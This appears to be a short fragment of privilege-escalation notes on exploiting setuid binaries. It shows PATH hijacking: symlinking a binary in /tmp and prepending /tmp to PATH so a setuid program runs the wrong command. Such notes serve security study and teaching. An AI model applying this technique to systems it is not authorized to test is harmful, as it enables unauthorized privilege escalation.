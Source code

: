 # Setuid

In this section we will look at ways to exploit a setuid

## Enviornment Variable Path

In writeable directory /tmp or /tmp/var make a symbolic link to binary

```$ cd /tmp
/tmp:~>ln -s /bin/cat ls
export PATH=/tmp/:$PATH
```
